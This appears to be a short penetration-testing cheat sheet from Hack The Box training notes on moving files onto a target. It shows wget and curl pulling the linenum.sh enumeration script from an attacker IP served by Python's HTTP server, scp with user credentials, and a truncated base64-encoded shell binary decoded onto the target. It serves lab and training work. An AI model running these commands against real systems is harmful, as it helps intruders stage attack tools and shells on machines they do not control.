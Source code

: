 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

\
